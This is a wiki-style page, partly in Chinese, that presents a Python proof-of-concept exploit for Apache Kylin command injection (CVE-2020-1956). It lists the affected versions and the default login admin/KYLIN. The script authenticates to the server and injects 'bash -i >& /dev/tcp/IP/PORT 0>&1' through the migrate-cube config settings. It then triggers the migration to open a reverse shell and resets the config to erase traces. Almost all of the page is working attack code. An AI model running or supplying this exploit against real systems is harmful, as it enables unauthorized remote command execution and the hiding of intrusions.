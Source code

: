 <languages   />

<translate>

影響版本
--------

</translate>

    Apache Kylin 2.3.0 ~ 2.3.2

    Apache Kylin 2.4.0 ~ 2.4.1

    Apache Kylin 2.5.0 ~ 2.5.2

    Apache Kylin 2.6.0 ~ 2.6.5

    Apache Kylin 3.0.0-alpha, Apache Kylin 3.0.0-alpha2, Apache Kylin 3.0.0-beta, Apache Kylin 3.0.0, Kylin 3.0.1

<translate> 打開後使用默認賬號密碼登錄，出現初始界面即為成功 </translate>

    admin/KYLIN

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech

    import requests
    import base64
    import sys


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
        print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        login_url = target_url + "/kylin/api/user/authentication"
        user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

        Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Cookie": "project=null"
        }
        try:
            response = requests.post(url=login_url, headers=headers, timeout=20)
            if "password" not in response.text:
                print("\033[31m[x] 账号密码出现错误 \033[0m")
                sys.exit(0)
            else:
                print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
                return response.cookies["JSESSIONID"],Authorization
        except:
            print("\033[31m[x] 漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, cookie, IP, PORT, Authorization):
        config_url = target_url + "/kylin/api/admin/config"

        key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
        value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Accept": "application/json, text/plain, */*",
            "Content-Type": "application/json;charset=UTF-8",
            "Pragma": "no-cache",
            "Cookie": "project=null;JSESSIONID="+cookie
        }
        for i in range(0,3):
            data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
            try:
                response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
                if response.status_code == 200:
                    print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
                else:
                    print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                    sys.exit(0)
            except:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
                sys.exit(0)

    def POC_3(target_url, cookie):
        print("\033[35m[o] 正在反弹shell......\033[0m")
        vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Cookie": "project=null;JSESSIONID=" + cookie
        }
        try:
            response = requests.post(url=vuln_url, headers=headers)
            POC_4(target_url, cookie)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)

    def POC_4(target_url, cookie):
        config_url = target_url + "/kylin/api/admin/config"

        key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
               "kylin.tool.auto-migrate-cube.dest-config"]
        value = ["flase", "echo;echo;echo", "None"]

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Authorization": Authorization,
            "Accept": "application/json, text/plain, */*",
            "Content-Type": "application/json;charset=UTF-8",
            "Pragma": "no-cache",
            "Cookie": "project=null;JSESSIONID=" + cookie
        }

        for i in range(0,3):
            data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
            try:
                response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
                if response.status_code == 200:
                    print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
                else:
                    print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                    sys.exit(0)
            except:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
                sys.exit(0)
        print("\033[35m[o] 成功清理痕迹\033[0m")


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        try:
            cookie,Authorization = POC_1(target_url)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
        IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
        PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
        POC_2(target_url, cookie, IP, PORT, Authorization)
        POC_3(target_url, cookie)

<translate>

參考
----

</translate> <https://poc.wgpsec.org/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Kylin/Apache%20Kylin%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CVE-2020-1956.html>